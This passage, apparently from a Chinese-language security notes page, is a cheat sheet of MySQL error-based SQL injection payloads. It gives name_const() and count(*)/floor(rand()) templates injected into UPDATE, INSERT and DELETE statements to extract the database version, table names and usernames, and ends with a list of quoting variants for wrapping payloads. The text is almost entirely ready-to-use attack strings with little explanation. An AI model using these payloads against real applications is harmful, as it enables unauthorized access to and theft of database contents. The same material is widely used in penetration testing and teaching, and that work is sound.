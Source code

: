 ## 0x04 使用name_const() //5.0.13中引入，返回任何给定的值

　　a. 载荷格式： or (SELECT*FROM(SELECT(name_const(version(),1)),name_const(version(),1))a) or

　　b. 注入：　　

UPDATE users SET password='Nicky' or (SELECT*FROM(SELECT(name_const(version(),1)),name_const(version(),1))a) or '' WHERE 
id=2 and username='Pseudo_Z';

​	c. 提取数据

INSERT INTO users (id, username, password) VALUES (1,'admin' or (SELECT*FROM(SELECT name_const((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),1),name_const(( SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),1))a) or '', 'oyyoug0d');

 

## 0x05 二次查询注入//mysql没有二次查询，因此使用子查询　　

1. 注入

INSERT INTO users (id, username, password) VALUES (1,'r00tgrok' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM 
information_schema.columns group by x)a) or'', 'Bl4ckhat');

DELETE FROM users WHERE id=1 or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' ;

 

2. 提取数据　　

INSERT INTO users (id, username, password) VALUES (1, 'Pseudo_Z' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT 
concat(0x7e,0x27,cast(users.username as char),0x27,0x7e) FROM `newdb`.users LIMIT 0,1) ) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'jesus-2014');

 

## 0x06 其他变种

' or (payload) or ' 
' and (payload) and ' 
' or (payload) and ' 
' or (payload) and '=' 
'* (payload) *' 
' or (payload) and ' 
" – (payload) – "

 

附：http://websec.ca/kb/sql_injection